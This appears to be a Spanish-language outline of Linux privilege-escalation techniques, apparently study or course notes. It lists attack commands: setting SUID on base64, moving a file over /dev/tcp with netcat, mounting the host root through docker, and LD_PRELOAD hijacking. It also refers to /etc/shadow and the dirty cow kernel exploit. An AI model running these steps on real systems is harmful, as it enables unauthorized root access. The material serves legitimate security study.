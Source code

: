 ### Abusando de privilegios SUID
 - chmod u+s /usr/bin/base64

### Detección y explotación de tareas Cron
 - pspy64
 - nc -nlvp 443 < pspy
 - cat < /dev/tcp/192.168.1.50/443 > pspy

### PATH Hijacking

### Python Library Hijacking

### Abuso de permisos incorrectamente implementados
 - /etc/passwd
 - /etc/shadow
 - Comandos: watch

### Detección y explotación de Capabilities
 - Comandos: capsh, pwdx

### Explotación del Kernel
 - searchsploit dirty cow /etc/passwd
 - https://github.com/The-Z-Labs/linux-exploit-suggester

### Abuso de grupos de usuario especiales
 - usermod -a -G docker usuario
 - docker run -dit -v /:/mnt/root ubuntu
 - usermod -a -G lxd usuario
 - docker run -dit -v /:/mnt/root ubuntu

### Abuso de servicios internos del sistema

### Abuso de binarios específicos
 - gdb, peda, EIP, ret2libc, ldd, readelf

### Secuestro de la biblioteca de objetos compartidos enlazados dinámicamente
 - gcc -shared -fPIC test.c -o test
 - LDPRELOAD=./test  ./random
 - /etc/ld.so.conf.d/
 - https://github.com/namhyung/uftrace

### Docker Breakout
 - gpasswd -d usuario lxd
 - /var/run/docker.sock
 - shellcode

### Cuestionario de escalada de privilegios
